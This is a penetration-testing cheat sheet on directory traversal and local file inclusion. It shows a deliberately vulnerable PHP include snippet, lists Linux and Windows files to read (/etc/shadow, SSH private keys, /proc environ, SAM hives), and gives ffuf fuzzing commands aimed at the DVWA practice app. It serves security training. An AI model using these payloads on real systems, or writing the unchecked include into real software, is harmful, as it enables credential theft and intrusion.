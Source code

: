 # Manual

```php
<?php
$file = $_GET['file'];
if(isset($file)) {
	include($file);
}
?>
```

## Directory Traversal

Navigating directories

### Linux

```
/etc/passwd
```

### Windows

```
/windows/win.ini
\\localhost\c$\windows\win.ini
```

## Local File Inclusion (LFI)

### General

#### Enumeration

- Check for disable_functions

```
phpinfo.php
```

### Linux

```
/etc/group
/etc/shadow
/home/<username>/.ssh/id_rsa
/root/.ssh/id_rsa
/etc/crontab
/home/<username>/.bash_history

/etc/os-release

/etc/hosts
/etc/resolv.conf
/proc/net/tcp
/proc/net/udp
/proc/net/arp
/proc/net/dev

/etc/ssh/sshd_config

/proc/self/cmdline
/proc/<pid>/cmdline

/proc/self/environ
/proc/<pid>/environ

/proc/self/cwd
/proc/<pid>/cwd

/proc/self/fd/<pid>

/proc/self/stat
/proc/self/status
/proc/mounts
```

```
$ ffuf -u "http://dvwa.local/dvwa/vulnerabilities/fi/?page=FUZZ" -b "PHPSESSID=<PHP_cookie_session_ID>;security=low" -c -w <(for i in $(seq 10000); echo "/proc/$i/cmdline") -mc 200


$ ffuf -u "http://dvwa.local/dvwa/vulnerabilities/fi/?page=FUZZ" -b "PHPSESSID=<PHP_cookie_session_ID>;security=low" -c -w <(for i in $(seq 10000); echo "/proc/$i/fd") -mc 200
```

### Windows

```
/WINDOWS/repair/sam
/WINDOWS/repair/system
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/01 - Enumeration and Discovery/Linux/Host/07 - Log Files/Manual/Living off the Land|Log Files]]

- [Hacking Articles: Comprehensive Guide on Path Traversal](https://www.hackingarticles.in/comprehensive-guide-on-path-traversal/)

- [SecurityIdiots: Guide to LFI](https://securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)

- [BorderGate: Local File Inclusion (LFI) Attacks](https://www.bordergate.co.uk/local-file-inclusion-attacks/)